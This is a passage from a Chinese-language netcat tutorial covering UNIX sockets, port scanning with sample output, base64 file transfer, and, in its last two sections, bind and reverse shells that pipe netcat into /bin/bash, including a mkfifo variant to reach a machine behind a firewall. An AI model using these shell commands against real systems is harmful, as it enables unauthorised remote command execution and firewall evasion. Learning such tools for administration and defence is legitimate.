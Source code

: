 ## 5、模拟 UNIX socket 服务端
 
在 A 执行
 `nc -Ul /tmp/mync.sock`## 6、模拟 UNIX socket 客户端
 
在 A 执行(UNIX 默认不能跨服务器)
 `nc -U /tmp/mync.sock`此时在该终端中输入任意字符，将在第5步的终端中输出同样的字符，证明 Unix socket 服务端和客户端模拟成功。
 
## 7、端口扫描
 `nc -vz 202.118.69.40 1-81 2>&1|grep succeed`
 
* `-z`指 Zero-I/O mode，即连接的过程中禁用输入输出，仅用与端口扫描。  
* `2>&1|grep succeed`
 默认情况下扫描过程中，不论成功与失败，扫描结果都被输出到了“标准错误输出”，该命令用来过滤，仅显示出打开到端口。  
 
 
上述指令输出结果如下：

```
Connection to 202.118.69.40 22 port [tcp/ssh] succeeded!
Connection to 202.118.69.40 53 port [tcp/domain] succeeded!
Connection to 202.118.69.40 80 port [tcp/http] succeeded!
```
 
## 8、传输文件
 
### 8.1 向服务器上传图片
 
服务器 A 监听 9090 端口
 `nc -l 9090 | base64 -d > WechatIMG88.jpeg`客户端上传图片
 `base64 WechatIMG88.jpeg | nc 202.118.69.40 9090`注：因为需要传输图片，所以先 base64 编码，然后下载完再解码避免终端错乱。
 
### 8.2 从服务器下载图片
 
服务器 A 监听 9090 端口，并将要下载的图片输出到 nc
 `base64 WechatIMG88.jpeg | nc -l 9090`客户端下载
 `nc -t 202.118.69.40 9090|base64 -D > w.jpeg`## 9、将服务器 bash 暴露给远程客户端
 
与 7 类似，只不过服务端将接收到到内容管道给 /bin/bash
 
然后在客户端输入要敲的命令
 `nc -l 9090 | /bin/bash`## 10、内网穿透，反向获取防火墙后的机器的 bash
 
与 8 类似，只不过服务器 B 将内容管道给 /bin/bash
 
在客户端 A 打开监听
 `nc -l 9090`在服务器 C 上执行以下代码反向接受命令
 `nc -t 202.119.70.41 9090 | /bin/bash`然后在客户端 A 输入要执行的命令即可。
 
需要注意的是，使用上述命令远程执行命令时在客户端无法看到命令的返回结果。
 
通过创建命名管道的方式，可将 bash 执行的结果回传给 netcat,
 
具体命令如下（在服务器 C 执行代码）：

```
mkfifo ncpipe
nc -t 202.119.70.41 9090 0<ncpipe| /bin/bash 1>ncpipe
```


[0]: ./img/Z3yINjM.png
[1]: ./img/2AFriir.gif